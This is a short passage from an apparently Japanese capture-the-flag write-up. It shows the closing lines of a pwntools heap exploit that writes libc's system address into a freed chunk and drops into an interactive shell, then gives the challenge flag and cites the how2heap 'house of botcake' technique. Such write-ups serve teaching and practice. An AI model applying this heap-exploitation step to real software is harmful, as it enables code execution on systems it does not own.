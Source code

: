 ```python
new("6", "16", p64(libc.sym["system"]))

delete("5")

io.interactive()
#CPCTF{we_implemented_it_too_freely}
```



# 参考文献
https://github.com/shellphish/how2heap/blob/master/glibc_2.31/house_of_botcake.c
